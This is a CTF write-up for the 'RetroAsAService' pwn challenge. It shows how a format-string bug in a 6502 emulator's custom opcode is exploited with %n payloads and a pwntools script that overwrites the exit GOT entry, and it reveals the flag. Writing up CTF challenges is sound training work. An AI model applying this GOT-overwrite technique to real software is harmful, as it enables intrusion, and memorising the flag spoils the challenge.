

# 1337UP LIVE CTF 2023

## RetroAsAService

> Oh, kernal broke but I added a cool new debugging functionality
> 
> Author: DavidP, 0xM4hm0ud
> 
> [`retro.zip`](retro.zip)

Tags: _pwn_

## Solution
We are provided with few files. Its just the setup for remote and the binary. We see that it takes our input as hex and write it to a file and run it with the `runtime` binary.
Lets first check the protections of the binary:

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We can see that PIE is not enabled and there is Partial RELRO, so GOT is writable. 
Lets checks the strings in the binary.
We find some interesting strings:

```
flag.txt
flag.txt not found! If this happened on the server, contact the admin please!
```

This means that there is probably a win function somewhere.

Now we need to find a vulnerability.
As we probably already reversed the runtime in the `Impossible Mission` challenge, we didnt find anything suspicious. 
If we reference were the string is used, we can find the win function:

```c
void FUN_00401266(void)

{
  long lVar1;
  int iVar2;
  FILE *__stream;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    perror("flag.txt not found! If this happened on the server, contact the admin please!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  do {
    iVar2 = fgetc(__stream);
    putchar((int)(char)iVar2);
  } while ((char)iVar2 != -1);
  fclose(__stream);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

If we diff the binary we can see that it is different.
We can check all modified functions here:




The one with 67.22% is interesting. The others aren't really important. The one with 84% is a false positive I guess.(It compares different functions). Lets check the function in Ghidra:

```c
void FUN_00405a6a(void)

{
  long lVar1;
  char cVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  cVar2 = FUN_0040160c();
  if (cVar2 == 31) {
    do {
      invalidInstructionException();
    } while( true );
  }
  if (cVar2 == 32) {
    printf(&DAT_0040b928 + (int)(uint)CONCAT11(DAT_0040b923,DAT_0040b924));
  }
  else {
    panic();
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can see a format string vulnerability: `printf(&DAT_0040b928 + (int)(uint)CONCAT11(DAT_0040b923,DAT_0040b924));`.

We can see that CONCAT is here used with 2 arguments from the DATA section. If you dont know what CONCAT means in ghidra read this(taken from stackoverflow):

```
CONCAT in particular could be modeled as a left shift of the first argument by the size of the second argument and then logical and-ing the two parameters. 
But for humans it's much easier to think of it as "put the two things next to each other".

The numbers following CONCAT only matter if the passed arguments are not the expected sizes and are probably mainly there to make things more explicit. 
Concretely, you shouldn't read CONCAT15 as "concat fifteen" but as "concat one five": The first argument is expected to have a size of one byte while the second has a size of five, 
totaling to an amount of six bytes: CONCAT15(0x12, 0x3456789012) is the same as 0x123456789012
```

If we check the assembly we can see that it indeeds left shift the first argument by the size of the second argument. 
The size is 8 bits(1 byte). It then OR it instead of ANDing(ig the person that answered this made a mistake there, because ANDing is wrong) it:

```
        00405aa1 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b923]
                 7b 5e 00 00
        00405aa8 0f b6 c0        MOVZX      EAX,AL
        00405aab c1 e0 08        SHL        EAX,0x8
        00405aae 89 c2           MOV        EDX,EAX
        00405ab0 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b924]
                 6d 5e 00 00
        00405ab7 0f b6 c0        MOVZX      EAX,AL
        00405aba 09 d0           OR         EAX,EDX
        00405abc 66 89 45 f2     MOV        word ptr [RBP + local_16],AX
        00405ac0 0f b7 45 f2     MOVZX      EAX,word ptr [RBP + local_16]
        00405ac4 48 98           CDQE
        00405ac6 48 8d 15        LEA        RDX,[DAT_0040b920]
                 53 5e 00 00
        00405acd 48 01 d0        ADD        RAX,RDX
        00405ad0 48 83 c0 08     ADD        RAX,0x8
        00405ad4 48 89 c7        MOV        RDI,RAX
        00405ad7 b8 00 00        MOV        EAX,0x0
                 00 00
        00405adc e8 cf b5        CALL       <EXTERNAL>::printf
                 ff ff
```

Based on thise we know that it concat two values. In the challenge `Impossible Mission` we already reversed the binary, we found out that the 2 values at the data section are register X and Y.
It then adds the value to the first argument of printf. Thats where the value is stored. So in code its something like `mem[(reg_x << 8) | reg_y]`. You can check in GDB how it works if you dont get it.
With this we can try to exploit the binary.

So I created an small poc:
```
* = $c000; Sets the base address to 0xc000
jmp start

payload .ASCII "%p"
        .BYTE 0

start	
		jsr		test
test	
		ldx		#>payload
		ldy		#<payload
		.word   0 ; We will patch this later with int #32. int isn't a normal opcode in c64. In this opcode it takes input etc.. In this challenge there is a format string here if we call it with 32 as hex value. 

		rts
```

We use this poc to test the vulnerability. We set the base address to 0xc000. We do this because we saw it when reversing the binary. It then loads the high byte in the X register and the low byte in the Y register.
We also set a .word 0 as placeholder. We do this because the function with the vuln isn't a valid opcode in c64. We can check the offset where the opcode is set.

We reversed this function already:

```c
bool step(void)

{
  code *pcVar1;
  byte bVar2;
  long in_FS_OFFSET;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  bVar2 = read8bytes();
  pcVar1 = (code *)(&PTR_FUN_0040b0e0)[(int)(uint)bVar2];
  if (pcVar1 == (code *)0x0) {
    panic();
  }
  (*pcVar1)();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return DAT_0040b920 != -1;
}
```

Here we can see that it index an array: `pcVar1 = (code *)(&PTR_FUN_0040b0e0)[(int)(uint)bVar2];`.
If we check the references in Ghidra to the vulnerable function, we can find that its stored in the array at address `0x40b858`.
We can calculate the offset in python:
```py
>>> hex((0x40b858 - 0x40b0e0) // 8)
'0xef'
```

We can see [here](https://www.masswerk.at/6502/6502_instruction_set.html) that the offset is empty, so it means that this isnt a valid opcode. We can use that value to call the custom opcode. 
As we have seen in the decompiled code if we call the opcode with value decimal value 32, it calls the printf:

```c
  if (cVar2 == 32) {
    printf(&DAT_0040b928 + (int)(uint)CONCAT11(DAT_0040b923,DAT_0040b924));
  }
```

We use [`this online assembler`](https://www.masswerk.at/6502/assembler.html) to compile the program and download the program as `Standard Binary`.
Now we patch the binary with an hexeditor. 

If we check the current value we see:

```
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 06 c0 25 70 00 20 09 ┊ c0 a2 c0 a0 03 00 00 60 │L•×%p0 _┊×××ו00`│
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

We just need to replace the first zero byte with the opcode `ef` and the second value with `20`(hex value of decimal value 32):

```
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 06 c0 25 70 00 20 09 ┊ c0 a2 c0 a0 03 ef 20 60 │L•×%p0 _┊××××•× `│
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

When we run it locally with the binary we get this:

```bash
➜ ./runtime test.prg
(nil)(nil)
```

Our poc works. 
If we set a breakpoint at the printf call and check the stack we can see:

```
gef> tele $rsp 0x10 -n
0x7fff923f2db0|+0x0000|000: 0x00000020c0032de0  <-  $rsp
0x7fff923f2db8|+0x0008|001: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2dc0|+0x0010|002: 0x00007fff923f2df0  ->  0x00007fff923f2e10  ->  0x00007fff923f3e70  ->  0x0000000000000002  <-  $rbp
0x7fff923f2dc8|+0x0018|003: 0x0000000000405c9b  ->  0x6600005c7e05b70f  <-  retaddr[1]
0x7fff923f2dd0|+0x0020|004: 0x00007fff923f3f88  ->  0x00007fff923f6149  ->  './runtime'
0x7fff923f2dd8|+0x0028|005: 0xefe2789b1f42fb00
0x7fff923f2de0|+0x0030|006: 0x0000000000405a6a  ->  0x10ec8348e5894855
0x7fff923f2de8|+0x0038|007: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2df0|+0x0040|008: 0x00007fff923f2e10  ->  0x00007fff923f3e70  ->  0x0000000000000002
0x7fff923f2df8|+0x0048|009: 0x0000000000405ceb  ->  0x9090f0eb0274c085  <-  retaddr[2]
0x7fff923f2e00|+0x0050|010: 0x0000000000bae480  ->  0x0920007025c0064c
0x7fff923f2e08|+0x0058|011: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2e10|+0x0060|012: 0x00007fff923f3e70  ->  0x0000000000000002
0x7fff923f2e18|+0x0068|013: 0x00000000004015a3  ->  0x45ebe800000000b8  <-  retaddr[3]
0x7fff923f2e20|+0x0070|014: 0x00007fff923f3f88  ->  0x00007fff923f6149  ->  './runtime'
0x7fff923f2e28|+0x0078|015: 0x0000000200000200
```

At position `012` on the stack we can see that it points to another stack location: `0x00007fff923f3e70`. 
We know that GOT is writable. So our goal is to write the exit got address there and then at that offset we overwrite it with the win function.
We can calculate the offset of the stack address. The position we write the exit address is 18th position. The second address is at position 542:

```
gef> p/d (0x00007fff923f3e70 - 0x7fff923f2e10) / 8 + 18
$1 = 542
```

Now we just take the decimal values of the exit address and win address and write at those offsets in 2 stages. We do this to prevent internal printf positional error. 
Exit is called in the panic function. In the vulnerable function if we call the opcode without any valid value it calls the panic function:

```c
  if (cVar2 == 31) {
    do {
      invalidInstructionException();
    } while( true );
  }
  if (cVar2 == 32) {
    printf(&DAT_0040b928 + (int)(uint)CONCAT11(DAT_0040b923,DAT_0040b924));
  }
  else {
    panic();
  }
```

So we can make this assembly program:

```
* = $c000; Sets the base address to 0xc000
jmp start

payload .ASCII "%4239512c%18$n"  ; Exit GOT address, Write to the 18th position on stack. 18 position points to the 542th position. 
        .BYTE 0
payload2 .ASCII "%4199014c%542$n" ; Overwrite exit got with the win function
         .BYTE 0

start	
		jsr		stage1
		jsr		stage2
stage1	
		ldx		#>payload
		ldy		#<payload
		.word   0 ; We will patch this later with int #32. int isn't a normal opcode in c64. In this opcode it takes input etc.. In this challenge there is a format string here if we call it with 32 as hex value. 

		rts

stage2
		ldx		#>payload
		ldy		#<payload2
		.word   0 ; We will patch this later with int #32

		.word	0 ; We will patch this later with int #100. This will call the panic function. In that function it calls exit
```
We patch the zero bytes with the custom opcode and the needed values.

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './runtime'
exe_args = ['payload.prg']
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
# context(terminal=['tmux', 'split-window', '-h'])

def file_to_hex(filename):
    try:
        with open(filename, 'rb') as file:
            file_data = file.read()
            hex_data = file_data.hex()
            return hex_data
    except FileNotFoundError:
        print(f"File '{filename}' not found.")

REMOTE = True

if REMOTE == False:
    io = start(exe_args)
    io.interactive()
else:
    io = start()
    hex_data = file_to_hex("payload.prg")
    io.sendline(hex_data.encode())
    print(io.recvall())
```

Running this locally and remotely give us the flag:

Flag `INTIGRITI{cl0ud_53rv1c35_45_1n_7h3_805}`